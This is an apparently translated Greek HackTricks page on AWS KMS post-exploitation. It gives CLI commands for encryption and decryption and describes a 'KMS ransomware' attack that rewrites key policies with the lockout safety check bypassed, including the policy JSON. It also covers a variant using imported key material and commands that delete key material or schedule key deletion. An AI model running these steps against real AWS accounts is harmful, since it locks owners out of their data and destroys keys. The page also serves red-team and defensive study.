 # AWS - Μετέπειτα Εκμετάλλευση KMS

<details>

<summary><strong>Μάθετε χάκερ AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκερ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## KMS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Κρυπτογράφηση/Αποκρυπτογράφηση πληροφοριών

* Χρησιμοποιώντας ένα **συμμετρικό** κλειδί
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Χρησιμοποιώντας ένα **ασύμμετρο** κλειδί:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Εάν λάβετε το σφάλμα 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' κατά την προσπάθεια εκτέλεσης της αποκρυπτογράφησης kms, δοκιμάστε να χρησιμοποιήσετε το **`--ciphertext-blob file://`** αντί για το **`fileb://`**.

Η χρήση του **`file://`** σάς παρέχει την ευκολία να χρησιμοποιείτε αρχεία που έχουν γραφεί στην προτιμώμενη κωδικοποίησή σας όταν χρησιμοποιείτε το CLI.
Στις εκδόσεις 1.6.3 και νεότερες του CLI, έχετε πρόσβαση σε άλλον τρόπο για να περάσετε τα περιεχόμενα ενός αρχείου στο CLI, το **`fileb://`**. Λειτουργεί παρόμοια με το **`file://`**, αλλά αντί να διαβάζει τα περιεχόμενα του αρχείου ως κείμενο, τα διαβάζει ως δυαδικά.

Σε περισσότερες περιπτώσεις, το **`file://`** θα ικανοποιήσει την περίπτωσή σας για τη μετάδοση των περιεχομένων ενός αρχείου ως είσοδο. Ωστόσο, υπάρχουν κάποιες περιπτώσεις όπου πρέπει να χρησιμοποιηθεί το **`fileb://`** για τη μετάδοση των περιεχομένων του αρχείου ως δυαδικά αντί για κείμενο.
Διαβάστε περισσότερα από την AWS εδώ: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

Ένας επιτιθέμενος με προνομιακή πρόσβαση στο KMS θα μπορούσε να τροποποιήσει την πολιτική του KMS των κλειδιών και **να χορηγήσει στο λογαριασμό του πρόσβαση σε αυτά**, αφαιρώντας την πρόσβαση που είχε χορηγηθεί στον νόμιμο λογαριασμό.

Στη συνέχεια, οι χρήστες του νόμιμου λογαριασμού δεν θα μπορούν να έχουν πρόσβαση σε καμία πληροφορία οποιασδήποτε υπηρεσίας που έχει κρυπτογραφηθεί με αυτά τα κλειδιά, δημιουργώντας ένα εύκολο αλλά αποτελεσματικό ransomware στον λογαριασμό.

{% hint style="warning" %}
Σημειώστε ότι τα **διαχειριζόμενα κλειδιά της AWS δεν επηρεάζονται** από αυτήν την επίθεση, μόνο τα **κλειδιά που διαχειρίζεται ο πελάτης**.

Επίσης, σημειώστε την ανάγκη χρήσης της παραμέτρου **`--bypass-policy-lockout-safety-check`** (η έλλειψη αυτής της επιλογής στον ιστότοπο καθιστά αυτήν την επίθεση δυνατή μόνο από το CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Σημειώστε ότι αν αλλάξετε αυτήν την πολιτική και δώσετε πρόσβαση μόνο σε ένα εξωτερικό λογαριασμό, και στη συνέχεια από αυτόν τον εξωτερικό λογαριασμό προσπαθήσετε να ορίσετε μια νέα πολιτική για **να επαναφέρετε την πρόσβαση στον αρχικό λογαριασμό, δεν θα μπορέσετε**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Γενικός KMS Ransomware

#### Παγκόσμιος KMS Ransomware
Υπάρχει άλλος τρόπος για να πραγματοποιηθεί ένας παγκόσμιος KMS Ransomware, ο οποίος θα περιλαμβάνει τα ακόλουθα βήματα:

* Δημιουργία ενός **κλειδιού με υλικό κλειδιού** που εισήχθη από τον εισβολέα
* **Επανα-κρυπτογράφηση παλαιότερων δεδομένων** που έχουν κρυπτογραφηθεί με την προηγούμενη έκδοση με το νέο.
* **Διαγραφή του KMS κλειδιού**
* Τώρα μόνο ο εισβολέας, ο οποίος διαθέτει το αρχικό υλικό του κλειδιού, θα μπορούσε να αποκρυπτογραφήσει τα κρυπτογραφημένα δεδομένα

### Καταστροφή κλειδιών
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Σημειώστε ότι η AWS τώρα **εμποδίζει τις προηγούμενες ενέργειες από να πραγματοποιούνται από λογαριασμό σε διαφορετικό λογαριασμό:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Μάθετε το χάκινγκ στην AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
